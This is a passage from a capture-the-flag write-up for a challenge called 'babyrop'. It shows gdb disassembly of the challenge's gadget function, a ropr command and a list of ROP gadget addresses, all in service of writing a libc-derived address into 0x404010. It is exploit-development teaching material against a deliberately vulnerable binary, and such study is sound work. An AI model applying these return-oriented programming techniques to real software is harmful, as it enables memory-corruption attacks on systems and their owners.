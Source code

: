 Since we have already have `libc.so.6` file. So the knowledge of offsets already known to us. All we have to find proper way to set address inside of `0x404010` .

Sounds like a plan right ? Lets move into it.

### Revisiting the gadgets

The challange creator/creators give us these gadgets. This gadgets will have crucial roles for the `ROP Chain` . ^gadgets-function

```python
gef➤  disassemble gadgets 
Dump of assembler code for function gadgets:
   0x0000000000401176 <+0>:     endbr64
   0x000000000040117a <+4>:     push   rbp
   0x000000000040117b <+5>:     mov    rbp,rsp
   0x000000000040117e <+8>:     pop    rcx
   0x000000000040117f <+9>:     ret
   0x0000000000401180 <+10>:    nop
   0x0000000000401181 <+11>:    pop    rbp
   0x0000000000401182 <+12>:    ret
End of assembler dump.
```

```bash
ropr ./vuln -j -u 
```


The important gadgets for the plan.

```python
0x00401157: add eax, 0x2ec3; add [rbp-0x3d], ebx; nop; ret;
0x0040115c: add [rbp-0x3d], ebx; nop; ret;
0x0040115b: add [rcx], al; pop rbp; ret;
0x00401230: add rsp, 8; ret;
0x0040117a: push rbp; mov rbp, rsp; pop rcx; ret;
0x0040117b: mov rbp, rsp; pop rcx; ret;
0x0040117e: pop rcx; ret;
0x00401181: pop rbp; ret;
0x00401234: ret;
```

### LIBC Harvesting


There are 2 specific gadgets that let us ability to put any value we want. Anything we put on stack these gadgets let us to handle directly.

![67dd8f932a117f348c2fd4bc807c5acb.png](/assets/images/SmileyCTF-babyrop/67dd8f932a117f348c2fd4bc807c5acb.png)
